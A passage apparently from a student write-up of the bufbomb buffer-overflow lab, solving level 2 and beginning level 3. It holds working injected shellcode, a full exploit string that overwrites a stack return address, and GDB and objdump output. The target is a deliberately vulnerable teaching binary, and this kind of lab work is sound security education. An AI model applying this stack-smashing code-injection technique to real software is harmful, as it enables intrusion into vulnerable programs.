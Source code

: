 b1 8c 04 08
```
Then using GDB, at bang cmp part you can see
```
eax 0x0
edx 0x700
```
eax is the global_value and edx is ```cookie & 0xf0f``` value. So in this level, we have to modify global_value to 0x700. The key to solve this problem is adding instruction and run in by returning this address.
In previous level, we put return address in 41 to 44 bytes in string. If we exploit stack, that place is the stack's return address part. So 45 to 48 bytes is ```0x4(%esp)``` part and if we input our instruction after return address part in string, then our return address should be ```0x4(%esp)``` address. To check this address, run ./bufbomb without input and break at getbuf. At ret instruction in getbuf function, you can see
```
esp 0x556833f4
```
So return address of our exploit string is "f8 33 68 55".
Our Instruction include move value to memory, push bang's address, return.
```
./level2/fire.s
movl $0x700, 0x0804d120
pushl $0x8048cb1
ret
```
compile and disassembling this file, you can get a disasembled file below.
```
gcc -m32 -c @targetfire.s
objdump -d @targetfire.o > @targetfile.d
```
```
./level2/fire.d

fire.o:     file format elf32-i386


Disassembly of section .text:

00000000 <.text>:
   0:	c7 05 20 d1 04 08 00 	movl   $0x700,0x804d120
   7:	07 00 00 
   a:	68 b1 8c 04 08       	push   $0x8048cb1
   f:	c3                   	ret    

```
Adding this bytes to exploit string.
```
./level2/fire.txt
30 31 32 33
34 35 36 37
38 39 40 41
42 43 44 45
46 47 48 49
50 51 52 53
54 55 56 57
58 59 60 61
62 63 64 65
66 67 68 69
f8 33 68 55
c7 05 20 d1 04 08 00 07 00 00 68 b1 8c 04 08 c3
```

## level 3: Dynamite

```
08048ea8 <test>:
 8048ea8:	55                   	push   %ebp
 8048ea9:	89 e5                	mov    %esp,%ebp
